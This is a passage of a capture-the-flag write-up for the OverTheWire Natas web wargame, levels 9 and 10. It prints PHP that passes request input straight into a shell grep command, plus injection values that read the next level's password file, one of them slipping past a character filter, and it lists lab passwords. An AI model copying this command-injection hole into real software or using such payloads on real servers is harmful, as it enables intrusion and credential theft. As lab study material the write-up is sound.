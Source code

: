 **Solution:**
The source code says: `<?
$key = "";

if(array_key_exists("needle", $\_REQUEST)) {
$key = $\_REQUEST["needle"];
}

if($key != "") {
passthru("grep -i $key dictionary.txt");
}
?>`

We can see that the input field is used in a grep command. We can use this to execute commands. Let's try to execute the command `; cat /etc/natas_webpass/natas10;`. The password is put on the page.

The password is `D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE`.

## Level 10

`username: natas10`
`password: D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE`
`url: http://natas10.natas.labs.overthewire.org/`

**Solution:**
The website says: 'For security reasons, we now filter on certain characters'.

The source code says: `<?
$key = "";

if(array_key_exists("needle", $\_REQUEST)) {
$key = $\_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
print "Input contains an illegal character!";
} else {
passthru("grep -i $key dictionary.txt");
}
}
?>`

Since we can't use `;|& ` when typing our command, we need to find another way to execute commands. Grep can use wildcards, and I have noticed that the dictionary.txt is very big, so we can exclude it by typing the command `.* /etc/natas_webpass/natas11`.

![Level10](Level10.png)
